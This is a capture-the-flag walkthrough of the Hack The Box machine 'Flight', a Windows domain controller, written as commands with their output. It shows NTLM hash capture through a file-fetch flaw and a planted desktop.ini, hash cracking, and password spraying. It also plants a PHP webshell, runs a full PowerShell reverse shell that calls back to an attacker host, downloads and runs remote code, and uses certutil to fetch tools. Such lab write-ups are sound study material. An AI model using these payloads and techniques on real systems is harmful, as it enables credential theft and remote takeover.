 TCP SCAN
> TARGET=10.129.69.58 && nmap -p$(nmap -p- --min-rate=1000 -T4 $TARGET -Pn | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) -sC -sV -Pn -vvv $TARGET -oN nmap_tcp_all.nmap

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-title: g0 Aviation
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-11-06 14:28:59Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52871/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Domain found: flight.htb
WEB ENUM
Subdomain enum
> wfuzz -c -f subdomains.txt -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hl 154

000000624:   200        90 L     412 W      3996 Ch     "school"
Browsing to the subdomain found a url parameter: http://school.flight.htb/index.php?view=home.html
First suspicion, this may be vulnerable to LFI.
After a bit enum, found an error output when browsed to http://school.flight.htb/index.php?view=index.php. Then inspect the source code found the following php code in the source.
<?php
ini_set('display_errors', 0);
error_reporting(E_ERROR | E_WARNING | E_PARSE); 

if(isset($_GET['view'])){
$file=$_GET['view'];
if ((strpos(urldecode($_GET['view']),'..')!==false)||
    (strpos(urldecode(strtolower($_GET['view'])),'filter')!==false)||
    (strpos(urldecode($_GET['view']),'\\')!==false)||
    (strpos(urldecode($_GET['view']),'htaccess')!==false)||
    (strpos(urldecode($_GET['view']),'.shtml')!==false)
){
    echo "<h1>Suspicious Activity Blocked!";
    echo "<h3>Incident will be reported</h3>\r\n";
}else{
    echo file_get_contents($_GET['view']);	
}
}else{
    echo file_get_contents("C:\\xampp\\htdocs\\school.flight.htb\\home.html");
}
?>
The url validation part prevents us from doing LFI. But we can use this code to force the service to fetch a remote source using Windows network share syntax: //ip>/<share> and attempt to capture the hash of a service.
CAPTURE SERVICE ACCOUNT HASH
A service account svc_apache and its ntlm hash can be captured
# In browser
> http://school.flight.htb/index.php?view=//<ip>/test

# In kali
> responder -I tun0 -wP

[SMB] NTLMv2-SSP Client   : 10.129.69.58
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash     : svc_apache::flight:8f18f6aaeb23aaca:<hash>:<hash>
Crack the hash using hashcat: S*********3
> hashcat.exe --force -m 5600 hash.txt rockyou.txt
SMB ENUM
From above, we have captured a credential that can be used to access SMB. Then enum SMB
# List shares
> smbclient -L //flight.htb/ -U svc_apache

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Shared          Disk      
SYSVOL          Disk      Logon server share 
Users           Disk      
Web             Disk

# Users share
> smbclient //flight.htb/Users -U svc_apache
lpcfg_do_global_parameter: WARNING: The "syslog" option is deprecated
Password for [WORKGROUP\svc_apache]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Thu Sep 22 16:16:56 2022
  ..                                 DR        0  Thu Sep 22 16:16:56 2022
  .NET v4.5                           D        0  Thu Sep 22 15:28:03 2022
  .NET v4.5 Classic                   D        0  Thu Sep 22 15:28:02 2022
  Administrator                       D        0  Mon Oct 31 14:34:00 2022
  All Users                       DHSrn        0  Sat Sep 15 03:28:48 2018
  C.Bum                               D        0  Thu Sep 22 16:08:23 2022
  Default                           DHR        0  Tue Jul 20 15:20:24 2021
  Default User                    DHSrn        0  Sat Sep 15 03:28:48 2018
  desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018
  Public                             DR        0  Tue Jul 20 15:23:25 2021
  svc_apache                          D        0  Fri Oct 21 14:50:21 2022
AD ENUM
Perform enum on SMB using the previously obtained credential
> ~/tools/cme/cme smb flight.htb -u svc_apache -p 'S*********3' --users                            
SMB    flight.htb      445    G0     flight.htb\O.Possum          badpwdcount: 0 desc: Helpdesk
SMB    flight.htb      445    G0     flight.htb\svc_apache        badpwdcount: 0 desc: Service Apache web
SMB    flight.htb      445    G0     flight.htb\V.Stevens         badpwdcount: 0 desc: Secretary
SMB    flight.htb      445    G0     flight.htb\D.Truff           badpwdcount: 0 desc: Project Manager
SMB    flight.htb      445    G0     flight.htb\I.Francis         badpwdcount: 0 desc: Nobody knows why he's here
SMB    flight.htb      445    G0     flight.htb\W.Walker          badpwdcount: 0 desc: Payroll officer
SMB    flight.htb      445    G0     flight.htb\C.Bum             badpwdcount: 1 desc: Senior Web Developer
SMB    flight.htb      445    G0     flight.htb\M.Gold            badpwdcount: 0 desc: Sysadmin
SMB    flight.htb      445    G0     flight.htb\L.Kein            badpwdcount: 0 desc: Penetration tester
SMB    flight.htb      445    G0     flight.htb\G.Lors            badpwdcount: 0 desc: Sales manager
SMB    flight.htb      445    G0     flight.htb\R.Cold            badpwdcount: 0 desc: HR Assistant
SMB    flight.htb      445    G0     flight.htb\S.Moon            badpwdcount: 0 desc: Junion Web Developer
Using a similar approach, we learnt that another user s.moon is using the same password as svc_apache
> ~/tools/cme/cme smb flight.htb -u users.txt -p 'S*********3' --continue-on-success
SMB    flight.htb      445    G0     [-] flight.htb\O.Possum:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [+] flight.htb\svc_apache:S*********3 
SMB    flight.htb      445    G0     [-] flight.htb\V.Stevens:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [-] flight.htb\D.Truff:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [-] flight.htb\I.Francis:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [-] flight.htb\W.Walker:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [-] flight.htb\C.Bum:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [-] flight.htb\M.Gold:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [-] flight.htb\L.Kein:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [-] flight.htb\G.Lors:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [-] flight.htb\R.Cold:S*********3 STATUS_LOGON_FAILURE 
SMB    flight.htb      445    G0     [+] flight.htb\S.Moon:S*********3
USER: C.BUM
Using impacket-smbexec, we can find out which share is writable. But there seems to be customised code that prevents a lot of file types to be written: Shared
> impacket-psexec flight.htb/s.moon@g0.flight.htb
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on g0.flight.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[*] Found writable share Shared
[*] Uploading file UCspwDOu.exe
[-] Error uploading file UCspwDOu.exe, aborting.....
[-] Error performing the installation, cleaning up: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
Create a desktop.ini file with the following content. For more detail, refer to https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini
[.ShellClassInfo]
IconResource=\\<ip>\test
Then upload this file to smb: Shared. Then setup responder again and wait for an autobot to trigger the file load to capture c.bum hash.
# upload desktop.ini
> smbclient //flight.htb/shared -U s.moon
> put desktop.ini

# listen for hash
> responder -I tun0 -wF -v
Crack c.bum’s password: T*****************4
> hashcat.exe --force -m 5600 hash.txt rockyou.txt
You can now smb as c.bum to share: Users and capture the user flag
REVERSE-SHELL: C.BUM
c.bum user can write to the share: Web
Create a simple php backdoor under web/school.flight.htb
> /usr/share/webshells/php/simple-backdoor.php
# upload it to smb
Prepare a powershell reverse shell and serve it with http
$client = New-Object System.Net.Sockets.TCPClient("<ip>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
Trigger the shell via browser and listen with nc
> http://school.flight.htb/w.php?cmd=powershell.exe+IEX(New-Object%20Net.WebClient).DownloadString(%27http://<ip>/shell.ps1%27)
You should receive a reverse shell as svc_apache
Switch to c.bum using runascs: https://github.com/antonioCoco/RunasCs/tree/master
# upload Runascs.exe, then setup a listener
# it's more convenient to run two sessions as c.bum for later your'll find out (one for pivot, another for operation)
> certutil.exe -urlcache -f http://<ip>/RunasCs.exe RunasCs.exe
> .\Runascs.exe c.bum T*****************4 powershell -r <ip>:5555
